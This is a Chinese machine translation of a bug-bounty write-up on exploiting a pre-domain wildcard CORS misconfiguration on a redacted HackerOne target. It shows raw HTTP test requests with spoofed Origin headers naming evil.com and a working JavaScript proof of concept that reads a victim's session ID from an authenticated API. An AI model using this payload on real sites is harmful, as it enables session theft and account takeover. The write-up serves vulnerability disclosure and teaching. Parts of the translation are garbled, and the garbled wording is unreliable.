

# 域名前通配符 CORS 利用

> 原文：<https://infosecwriteups.com/pre-domain-wildcard-cors-exploitation-2d6ac1d4bd30?source=collection_archive---------0----------------------->


***严重性:高***

***复杂度:中等***

***缺点:信任域名前通配符作为原点***

*   *一些网站在尝试验证来源是否可信时会犯典型的 URL 解析错误。*

*例如，一个我称之为 advisor.com 的网站信任所有以 advisor.com 为终点的起点，包括 definitelynotadvisor.com*

*   *以下是尝试寻找域名前通配符弱点的测试案例:*

***称之为 REDACTED.COM，因为它是 Hackerone 上的私人程序。***

```
* TEST 1 :GET /account HTTP/1.1
Host: connect.redacted.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: redacted.com
Accept-Language: en-US,en;q=0.8
Cookie: 
Origin: https://redacted.com * Response :Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Accept, Accept-Encoding, Accept-Language, Authorization, X-Context, X-Session-ID
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Origin: https://redacted.com
Access-Control-Max-Age: 3600
```

```
Test 2 :GET /account HTTP/1.1
Host: connect.redacted.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: redacted.com
Accept-Language: en-US,en;q=0.8
Cookie: 
Origin: https://evil.com * Response :HTTP/1.1 302 Found
Content-Type: text/html;charset=utf-8
Date: Wed, 23 Aug 2017 20:00:08 GMT
Location: https://connect.redacted.com/auth
```

```
Test 3:GET /account HTTP/1.1
Host: connect.redacted.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: redacted.com
Accept-Language: en-US,en;q=0.8
Cookie: 
Origin: https://redacted.com.evil.com* Response :HTTP/1.1 302 Found
Content-Type: text/html;charset=utf-8
Date: Wed, 23 Aug 2017 20:00:08 GMT
Location: https://connect.redacted.com/auth
```

```
Test 4:GET /account HTTP/1.1
Host: connect.redacted.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: redacted.com
Accept-Language: en-US,en;q=0.8
Cookie: 
Origin: https://connect.redacted.com.evil.com* Response :HTTP/1.1 302 Found
Content-Type: text/html;charset=utf-8
Date: Wed, 23 Aug 2017 20:00:08 GMT
Location: https://connect.redacted.com/auth
```

```
Test 5:GET /account HTTP/1.1
Host: connect.redacted.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: redacted.com
Accept-Language: en-US,en;q=0.8
Cookie: 
Origin: https://evilredacted.com* Response :Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Accept, Accept-Encoding, Accept-Language, Authorization, X-Context, X-Session-ID
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Origin: https://evilredacted.com
Access-Control-Max-Age: 3600
```

*   *从* ***测试 5*** *很明显，应用程序只是通过检查它是否以****redacted.com***结尾来验证原点
*   *(ACAH)随着不同的方法也被启用，这意味着攻击者可以代表受害者提出不同的请求。*
*   *要成功利用这个漏洞，我们需要***** redated . com 域***
*   *所以，我去买了它****kiraakredacted.com****来剥削它*

*   ***剥削:***

*现在是时候找到好的剥削终点来论证&增加影响了。connect.redacted.com 的* *没有什么可利用的，就像静态网站要求安装他们的浏览器扩展一样。*

但是有一件事让我一直想找到一些利用途径，那就是要安装那个扩展 ***你需要登录。我怀疑他们在某个地方储存了一些信息。于是我开始了 bruteforcing，阅读 API 端点的文档。并且遇到了*[***【https://connect.redacted.com/v1/user】***](https://connect.redacted.com/v1/user)**其中包含了 json 响应中的用户详细信息以及 SESSIONID。****

```
*<html>
<body>
<button type='button' onclick='cors()'>xxx</button>
<p id='demo'></p>
<p id='session'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("demo").innerHTML = this.responseText;
parsed = JSON.stringify(this.responseText);
var arr = [];
 for(var x in parsed){
 arr.push(parsed[x]);
 }
 console.log(arr)
 document.getElementById(‘session’).innerHTML = arr[13];
}
};
xhttp.open("GET", "https://connect.redacted.com/v1/user", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>*
```

**

*反应*

*   **能够远程接管用户账户。**

**

****参考:****

*[*http://blog . ports wigger . net/2016/10/exploining-CORS-misconfiguration s-for . html*](http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html)*